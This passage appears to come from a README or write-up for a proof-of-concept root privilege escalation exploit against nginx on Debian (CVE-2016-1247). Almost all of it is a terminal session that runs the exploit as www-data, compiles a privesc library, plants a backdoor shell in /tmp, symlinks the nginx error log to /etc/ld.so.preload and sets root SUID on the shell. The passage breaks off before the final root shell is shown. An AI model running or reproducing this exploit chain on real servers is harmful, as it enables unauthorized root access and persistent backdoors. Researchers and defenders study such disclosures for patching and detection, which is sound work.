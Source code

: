 It can be exploited.
Terminal 1 :

```console
www-data@debian:~$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@debian:~$ /home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log
 _______________________________
< Is your server (N)jinxed ? ;o >
 -------------------------------
           \ 
            \          __---__
                    _-       /--______
               __--( /     \ )XXXXXXXXXXX\v.  
             .-XXX(   O   O  )XXXXXXXXXXXXXXX- 
            /XXX(       U     )        XXXXXXX\ 
          /XXXXX(              )--_  XXXXXXXXXXX\ 
         /XXXXX/ (      O     )   XXXXXX   \XXXXX\ 
         XXXXX/   /            XXXXXX   \__ \XXXXX
         XXXXXX__/          XXXXXX         \__---->
 ---___  XXX__/          XXXXXX      \__         /
   \-  --__/   ___/\  XXXXXX            /  ___--/=
    \-\    ___/    XXXXXX              '--- XXXXXX
       \-\/XXX\ XXXXXX                      /XXXXX
         \XXXXXXXXX   \                    /XXXXX/
          \XXXXXX      >                 _/XXXXX/
            \XXXXX--__/              __-- XXXX/
             -XXXXXXXX---------------  XXXXXX-
                \XXXXXXXXXXXXXXXXXXXXXXXXXX/
                  ""VXXXXXXXXXXXXXXXXXXV""
 
Nginx (Debian-based distros) - Root Privilege Escalation PoC Exploit (CVE-2016-1247) 
nginxed-root.sh (ver. 1.0)

Discovered and coded by: 

Dawid Golunski 
https://legalhackers.com 

[+] Starting the exploit as: 
uid=33(www-data) gid=33(www-data) groups=33(www-data)

[+] Compiling the privesc shared library (/tmp/privesclib.c)

[+] Backdoor/low-priv shell installed at: 
-rwxr-xr-x 1 www-data www-data 926536 Apr 18 08:53 /tmp/nginxrootsh

[+] The server appears to be (N)jinxed (writable logdir) ! :) Symlink created at: 
lrwxrwxrwx 1 www-data www-data 18 Apr 18 08:53 /var/log/nginx/error.log -> /etc/ld.so.preload

[+] Waiting for Nginx service to be restarted (-USR1) by logrotate called from cron.daily at 6:25am...
[+] Nginx restarted. The /etc/ld.so.preload file got created with web server privileges: 
-rw-r--r-- 1 www-data root 19 Apr 18 08:53 /etc/ld.so.preload

[+] Adding /tmp/privesclib.so shared lib to /etc/ld.so.preload

[+] The /etc/ld.so.preload file now contains: 
/tmp/privesclib.so

[+] Escalating privileges via the /usr/bin/sudo SUID binary to get root!
-rwsrwxrwx 1 root root 926536 Apr 18 08:53 /tmp/nginxrootsh

[+] Rootshell got assigned root SUID perms at: 
```
